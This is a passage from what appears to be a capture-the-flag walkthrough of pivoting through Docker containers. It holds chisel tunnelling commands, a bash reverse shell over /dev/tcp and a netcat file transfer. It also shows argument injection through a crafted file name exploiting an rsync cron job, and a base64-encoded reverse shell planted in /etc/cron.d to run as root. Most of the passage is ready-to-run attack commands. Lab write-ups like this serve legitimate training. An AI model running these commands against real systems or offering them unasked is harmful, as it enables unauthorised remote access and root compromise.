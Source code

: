 There is cron that will delete this file every 3 minutes  

### Shell from Redis Box

Using `http://localhost:8082/aaabbb.php?aaa=` we have code execution on the '172.19.0.2` box  

However, we need the `172.19.0.2` to be able to connect back to us with a reverse shell  
Start another chisel client to forward requests from 9001 to 8017 on our attack box (not specifying `R:` changes the direction):  
- `./chisel client 10.10.14.3:8688 9001:127.0.0.1:8017`  

Then, with a nc listener on `8017` we will receive the connect back when we execute a bash reverse shell on `172.19.0.2`  

<br />

## Privilege Escalation 1

We can move LinEnum.sh over to `172.19.0.2` with another chisel forward:  
- `./chisel client 10.10.14.3:8688 9002:127.0.0.1:8016` On the pivot host
- `nc -lvnp 8016 < LinEnum.sh` on the attack box  
- `cat < /dev/tcp/172.19.0.4/9002 > LinEnum.sh` in the shell on the target box  

Running LinEnum, we see that there is a cron which runs a job  
Not going to go into detail at all here about why this works;  
- Move `RDBScript.rdb` to the target  
- `touch -- 'f187a0ec71ce99642e4f0afbd441a68b/-e "sh RDBScript.rdb"'` in `/var/www/html`  
- If that doesn't work, do it without the `"`  
- Wait for the cron to run, `/tmp/privesc` should get generated, run it, you have a root shell  

This is still only a root shell on a Docker container, running `ip a` shows us we are homed on both the `172.19` network, and on a `172.20` network as `172.20.0.2`  
`ip neigh` shows that there is another box on the 20 network at `172.20.0.3` 

<br />

## Pivot 2

We can upload files to the `172.20.0.3` host using the same rsync cron that we privesc'd with  

But first we need to set up our tunnels to have that host be able to connect all the way back to our attack box  

First, move chisel to the `172.20.0.2` host  
Now we will use a chisel client on `172.19.0.4` to redirect a chisel client -> server connection from `172.20.0.2` to the chisel server running on our attack box:  
`./chisel client 10.10.14.3:8688 9081:10.10.14.3:8688`  

Now, using chisel on the `172.20.0.3` host, forward connections to port `9082` all the way back to our attack box:  
`./chisel client 172.19.0.4:9081 9082:127.0.0.1:9082 &`  

Start a nc listner on the attack box on `9082`  

rsync does not like some of the characters in the bash rev shell line, so we base64 encode it and then decode it:  
- `echo "bash -c 'bash -i >& /dev/tcp/172.20.0.2/9082 0>&1'" | base64`  
- Copy the result (YmFza...)
- `echo "* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4yLzkwODIgMD4mMScK | base64 -d | bash" > clean`  
- `rsync -avp clean rsync://backup:873/src/etc/cron.d/clean`  
